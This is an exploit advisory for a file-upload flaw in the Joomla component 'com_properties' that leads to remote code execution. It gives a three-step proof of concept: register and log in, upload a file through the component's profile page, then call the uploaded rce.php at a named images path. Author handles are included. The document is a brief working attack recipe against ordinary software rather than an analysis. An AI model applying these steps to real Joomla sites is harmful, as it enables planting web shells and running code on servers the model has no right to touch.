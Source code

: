 
#Exploit Title: Joomla Component 'com_properties' File Upload/RCE

Google Dork: NA


Exploit Author: Und3r-r00t

Tested on: Centos

PoC  

1- register and login
http://localhost/index.php?option=com_user&task=register&Itemid=296
  
http://localhost/index.php?option=com_user&view=login

2- Upload File 
http://localhost/index.php?option=com_properties&amp;view=profile&amp;Itemid=19

3- File path
http://localhost/images/properties/profiles/rce.php


----------------------
github - Und3r-r00t
twitter - @p33rl
----------------------
